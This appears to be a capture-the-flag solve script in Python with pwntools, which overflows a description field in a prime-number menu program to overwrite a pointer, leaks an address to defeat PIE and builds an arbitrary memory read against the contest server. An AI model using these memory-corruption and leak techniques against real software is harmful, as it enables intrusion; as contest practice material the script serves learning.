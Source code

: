 ##### Solve.sage

```python
from pwn import *

# ======================== PWN ========================

elf = ELF("./probableprime2electricboogaloo")
#io = process("./probableprime2electricboogaloo")
io = remote("ctf.wackattack.eu", 8090)

def create_prime(name, prime, desc):
    io.recvuntil(b">")
    io.sendline(b"1")
    io.recvuntil(b">")
    if name:
        io.sendline(b"1")
        io.recvuntil(b"Name: ")
        io.sendline(name)
    else:
        io.sendline(b"0")
    io.recvuntil(b"prime: ")
    io.sendline(prime)
    io.recvuntil(b"Description: ")
    io.sendline(desc)

def showcase_prime(idx, opt):
    io.recvuntil(b">")
    io.sendline(b"3")
    io.recvuntil(b"> ")
    io.sendline(idx)
    io.recvuntil(b">")
    io.sendline(opt)
    leak1 = io.recvline()
    leak2 = io.recvline()
    return leak1, leak2

def edit_description(idx, data):
    io.recvuntil(b"> ")
    io.sendline(b"2")
    io.recvuntil(b"> ")
    io.sendline(idx)
    io.recvuntil(b"> ")
    io.sendline(b"2")
    io.sendlineafter(b"Description: ", data)

def leak_add(address):
    edit_description(b"0", b"A"*48 + p64(address))
    name_leak, _ = showcase_prime(b"1", b"3")
    leaked_prefix = name_leak.split(b":")[0]
    data = leaked_prefix[1:9].ljust(8, b"\0")
    return u64(data)

create_prime(b"leak", b"13", b"A"*57)
create_prime(None, b"11", b"asdf")
prime, desc = showcase_prime(b"0", b"2")
leak = desc.replace(b"A", b"").replace(b"Description: ", b"").strip()
bss_leak = hex(u64(leak.ljust(8, b"\x00")))
elf.address = int(bss_leak, 16) - 0x6150
print(f"PIE = {hex(elf.address)}")

k_addr = leak_add(elf.sym.k+8)
k = leak_add(k_addr)
print(f"k = {hex(k)}")
```